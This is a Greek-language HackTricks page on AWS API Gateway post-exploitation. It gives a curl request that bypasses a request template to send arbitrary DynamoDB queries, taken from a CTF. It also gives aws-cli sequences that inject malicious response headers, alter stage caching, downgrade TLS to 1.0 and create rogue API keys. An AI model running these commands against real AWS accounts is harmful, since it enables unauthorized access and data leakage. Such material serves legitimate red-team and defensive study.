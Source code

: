 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## API Gateway

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Πρόσβαση σε μη εκτεθειμένα APIs

Μπορείτε να δημιουργήσετε ένα endpoint στο [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) με την υπηρεσία `com.amazonaws.us-east-1.execute-api`, να εκθέσετε το endpoint σε ένα δίκτυο όπου έχετε πρόσβαση (πιθανώς μέσω μιας EC2 μηχανής) και να αναθέσετε μια ομάδα ασφαλείας που επιτρέπει όλες τις συνδέσεις.\
Στη συνέχεια, από την EC2 μηχανή θα μπορείτε να έχετε πρόσβαση στο endpoint και επομένως να καλέσετε το gateway API που δεν ήταν εκτεθειμένο πριν.

### Παράκαμψη του Request body passthrough

Αυτή η τεχνική βρέθηκε σε [**αυτό το CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Όπως αναφέρεται στην [**τεκμηρίωση του AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) στην ενότητα `PassthroughBehavior`, από προεπιλογή, η τιμή **`WHEN_NO_MATCH`** , όταν ελέγχει την κεφαλίδα **Content-Type** του αιτήματος, θα περάσει το αίτημα στο back end χωρίς μετασχηματισμό.

Επομένως, στο CTF το API Gateway είχε ένα integration template που **απέτρεπε την εξαγωγή της σημαίας** σε μια απάντηση όταν ένα αίτημα στάλθηκε με `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Ωστόσο, η αποστολή ενός αιτήματος με **`Content-type: text/json`** θα απέτρεπε αυτό το φίλτρο.&#x20;

Τέλος, καθώς το API Gateway επέτρεπε μόνο `Get` και `Options`, ήταν δυνατό να σταλεί ένα αυθαίρετο ερώτημα dynamoDB χωρίς κανένα όριο στέλνοντας ένα POST αίτημα με το ερώτημα στο σώμα και χρησιμοποιώντας την κεφαλίδα `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Στην ενότητα **Enumeration** μπορείτε να δείτε πώς να **αποκτήσετε το usage plan** των κλειδιών. Εάν έχετε το κλειδί και είναι **περιορισμένο** σε Χ χρήσεις **ανά μήνα**, μπορείτε **απλά να το χρησιμοποιήσετε και να προκαλέσετε DoS**.

Το **API Key** χρειάζεται απλώς να **συμπεριληφθεί** μέσα σε μια **HTTP header** που ονομάζεται **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τα δικαιώματα `apigateway:UpdateGatewayResponse` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει μια υπάρχουσα Gateway Response για να συμπεριλάβει προσαρμοσμένες κεφαλίδες ή πρότυπα απαντήσεων που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα scripts**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανός Αντίκτυπος**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων scripts, ή μη εξουσιοδοτημένη πρόσβαση σε πόρους API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateStage` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει ένα υπάρχον στάδιο API Gateway για να ανακατευθύνει την κίνηση σε διαφορετικό στάδιο ή να αλλάξει τις ρυθμίσεις caching για να αποκτήσει μη εξουσιοδοτημένη πρόσβαση σε αποθηκευμένα δεδομένα**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανός Αντίκτυπος**: Μη εξουσιοδοτημένη πρόσβαση σε αποθηκευμένα δεδομένα, διακοπή ή υποκλοπή της κυκλοφορίας API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τα δικαιώματα `apigateway:PutMethodResponse` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει την απόκριση μεθόδου μιας υπάρχουσας μεθόδου API Gateway REST API για να συμπεριλάβει προσαρμοσμένες κεφαλίδες ή πρότυπα απόκρισης που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα σενάρια**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανός Αντίκτυπος**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων scripts, ή μη εξουσιοδοτημένη πρόσβαση σε πόρους API.

{% hint style="info" %}
Ανάγκη για δοκιμή
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateRestApi` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει τις ρυθμίσεις του API Gateway REST API για να απενεργοποιήσει την καταγραφή ή να αλλάξει την ελάχιστη έκδοση TLS, ενδεχομένως αποδυναμώνοντας την ασφάλεια του API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανός Αντίκτυπος**: Αποδυνάμωση της ασφάλειας του API, ενδεχομένως επιτρέποντας μη εξουσιοδοτημένη πρόσβαση ή έκθεση ευαίσθητων πληροφοριών.

{% hint style="info" %}
Ανάγκη για δοκιμή
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Ένας επιτιθέμενος με δικαιώματα `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, και `apigateway:CreateUsagePlanKey` μπορεί να **δημιουργήσει νέα API keys, να τα συσχετίσει με usage plans, και στη συνέχεια να χρησιμοποιήσει αυτά τα keys για μη εξουσιοδοτημένη πρόσβαση σε APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Πιθανός Αντίκτυπος**: Μη εξουσιοδοτημένη πρόσβαση σε πόρους API, παράκαμψη ελέγχων ασφαλείας.

{% hint style="info" %}
Ανάγκη για δοκιμή
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
